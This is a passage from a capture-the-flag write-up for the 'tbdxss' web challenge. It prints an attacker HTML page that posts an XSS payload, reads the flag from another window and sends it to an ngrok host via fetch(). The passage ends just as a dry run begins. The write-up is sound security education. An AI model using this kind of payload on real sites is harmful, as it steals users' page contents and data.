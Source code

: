 [pb.html]
```
<body>
    <p>hello world</p>
    <form action="https://tbdxss.chal.perfect.blue/change_note" id="noteform" method=POST target="_blank">
        <textarea id="payload" rows="10" cols="100" name="data" form="noteform"></textarea>
        <input type="submit" value="submit">
    </form>
    <script>
        // open new window that has the flag and give it a "name" of "flagWindow"
        window.open('https://tbdxss.chal.perfect.blue/note', 'flagWindow');

        // this POSTs the above form with an XSS note value to read and exfiltrate the flag
        // note: we must use \x3C as an alternate form of the "less than" character to avoid
        //       browser parser confusion inside
        payload.value = "\x3Cscript>let flagWindow = window.open('', 'flagWindow'); let flag = flagWindow.document.documentElement.innerText; fetch('http://8709-68-51-145-201.ngrok.io/?flag=' + flag);\x3C/script>";
        noteform.submit();

        // Run this code after a 5 second delay to ensure the above POST has completed
        // before we reload our XSS payload into *this* page.
        setTimeout(()=> {
            // This loads our previously-posted XSS which will read the flag from the
            // previously-opened window and exfiltrate it.
            window.location.href = 'https://tbdxss.chal.perfect.blue/note';
        }, 5000)
    </script>
</body>
```

To run this locally, you'll need node installed. You can install the dependencies in `package.json` by running:
```
npm install
```

This will create a `node_modules` folder containing the transitive dependencies.

You can run the web server like this:

```
node app.js
```

## Dry Run #1
We then tried this payload by opening the challenge in our web browser and putting in some note value like `sam`.
We then opened up a new tab and pasted in this URL:

`https://8709-68-51-145-201.ngrok.io/pb`

Here's what happened:
